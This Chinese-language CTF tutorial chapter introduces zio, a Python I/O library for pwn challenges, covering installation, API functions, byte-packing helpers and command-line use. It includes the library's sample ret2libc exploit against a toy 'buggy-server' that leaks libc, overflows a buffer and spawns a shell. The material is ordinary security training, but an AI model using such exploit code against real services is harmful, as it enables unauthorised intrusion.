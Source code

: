 # 2.8 zio

- [zio 简介](#zio-简介)
- [安装](#安装)
- [使用方法](#使用方法)
- [zio 在 CTF 中的应用](#zio-在-ctf-中的应用)


## zio 简介
[zio](https://github.com/zTrix/zio) 是一个易用的 Python io 库，在 Pwn 题目中被广泛使用，zio 的主要目标是在 stdin/stdout 和 TCP socket io 之间提供统一的接口，所以当你在本地完成 利用开发后，使用 zio 可以很方便地将目标切换到远程服务器。

zio 的哲学：
```python
from zio import *

if you_are_debugging_local_server_binary:
    io = zio('./buggy-server')          # used for local pwning development
elif you_are_pwning_remote_server:
    io = zio(('1.2.3.4', 1337))         # used to exploit remote service

io.write(your_awesome_ropchain_or_shellcode)
# hey, we got an interactive shell!
io.interact()
```

官方示例：
```python
from zio import *
io = zio('./buggy-server')
# io = zio((pwn.server, 1337))

for i in xrange(1337):
    io.writeline('add ' + str(i))
    io.read_until('>>')

io.write("add TFpdp1gL4Qu4aVCHUF6AY5Gs7WKCoTYzPv49QSa\ninfo " + "A" * 49 + "\nshow\n")
io.read_until('A' * 49)
libc_base = l32(io.read(4)) - 0x1a9960
libc_system = libc_base + 0x3ea70
libc_binsh = libc_base + 0x15fcbf
payload = 'A' * 64 + l32(libc_system) + 'JJJJ' + l32(libc_binsh)
io.write('info ' + payload + "\nshow\nexit\n")
io.read_until(">>")
# We've got a shell;-)
io.interact()
```

需要注意的的是，zio 正在逐步被开发更活跃，功能更完善的 pwntools 取代，但如果你使用的是 32 位 Linux 系统，zio 可能是你唯一的选择。而且在线下赛中，内网环境通常都没有 pwntools 环境，但 zio 是单个文件，上传到内网机器上就可以直接使用。


## 安装
zio 仅支持 Linux 和 OSX，并基于 python 2.6, 2.7。
```
$ sudo pip2 install zio
```
`termcolor` 库是可选的，用于给输出上色：`$ sudo pip2 install termcolor`。


## 使用方法
由于没有文档，我们通过读源码来学习吧，不到两千行，很轻量，这也意味着你可以根据自己的需求很容易地进行修改。

总共导出了这些关键字：
```python
__all__ = ['stdout', 'log', 'l8', 'b8', 'l16', 'b16', 'l32', 'b32', 'l64', 'b64', 'zio', 'EOF', 'TIMEOUT', 'SOCKET', 'PROCESS', 'REPR', 'EVAL', 'HEX', 'UNHEX', 'BIN', 'UNBIN', 'RAW', 'NONE', 'COLORED', 'PIPE', 'TTY', 'TTY_RAW', 'cmdline']
```

zio 对象的初始化定义：
```python
def __init__(self, target, stdin = PIPE, stdout = TTY_RAW, print_read = RAW, print_write = RAW, timeout = 8, cwd = None, env = None, sighup = signal.SIG_DFL, write_delay = 0.05, ignorecase = False, debug = None):
```
通常可以这样：
```python
io = zio(target, timeout=10000, print_read=COLORED(RAW,'red'), print_write=COLORED(RAW,'green'))
```

内部函数很多，下面是常用的：
```python
def print_write(self, value):
def print_read(self, value):

def writeline(self, s = ''):
def write(self, s):
 
def read(self, size = None, timeout = -1):
def readlines(self, sizehint = -1):
def read_until(self, pattern_list, timeout = -1, searchwindowsize = None):
 
def gdb_hint(self, breakpoints = None, relative = None, extras = None):

def interact(self, escape_character=chr(29), input_filter = None, output_filter = None, raw_rw = True):
```
zio 里的 `read` 和 `write` 对应到 pwntools 里就是 `recv` 和 `send`。

另外是对字符的拆包解包，是对 struct 库的封装：
```python
>>> l32(0xdeedbeaf)
'\xaf\xbe\xed\xde'
>>> l32('\xaf\xbe\xed\xde')
3740122799
>>> hex(l32('\xaf\xbe\xed\xde'))
'0xdeedbeaf'

>>> hex(b64('ABCDEFGH'))
'0x4142434445464748'
>>> b64(0x4142434445464748)
'ABCDEFGH'
```
`l` 和 `b` 就是指小端序和大端序。这些函数可以对应 pwntools 里的 `p32()`，`p64()`等。

当然你也可以直接在命令行下使用它：
```
$ zio -h

usage:

    $ zio [options] cmdline | host port

options:

    -h, --help              help page, you are reading this now!
    -i, --stdin             tty|pipe, specify tty or pipe stdin, default to tty
    -o, --stdout            tty|pipe, specify tty or pipe stdout, default to tty
    -t, --timeout           integer seconds, specify timeout
    -r, --read              how to print out content read from child process, may be RAW(True), NONE(False), REPR, HEX
    -w, --write             how to print out content written to child process, may be RAW(True), NONE(False), REPR, HEX
    -a, --ahead             message to feed into stdin before interact
    -b, --before            don't do anything before reading those input
    -d, --decode            when in interact mode, this option can be used to specify decode function REPR/HEX to input raw hex bytes
    -l, --delay             write delay, time to wait before write
```


## zio 在 CTF 中的应用
何不把使用 pwntools 的写的 exp 换成 zio 试试呢xD。
